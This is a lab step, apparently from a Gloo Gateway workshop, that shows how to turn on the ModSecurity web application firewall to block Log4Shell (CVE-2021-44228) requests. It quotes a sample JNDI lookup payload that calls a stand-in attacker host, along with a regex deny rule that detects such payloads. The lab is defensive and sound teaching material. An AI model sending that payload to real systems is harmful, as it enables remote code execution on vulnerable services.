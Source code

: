 


## Lab 13 - Use the Web Application Firewall filter <a name="lab-13---use-the-web-application-firewall-filter-"></a>

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Gateway includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections.

An example of how using Gloo Gateway we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit.

Using the Web Application Firewall capabilities you can reject requests containing such headers.

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That's what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

You need to create the following `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: waf
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    waf:
      customInterventionMessage: 'Log4Shell malicious payload'
      ruleSets:
      - ruleStr: |
          SecRuleEngine On
          SecRequestBodyAccess On
          SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*
            "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://"
            "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```
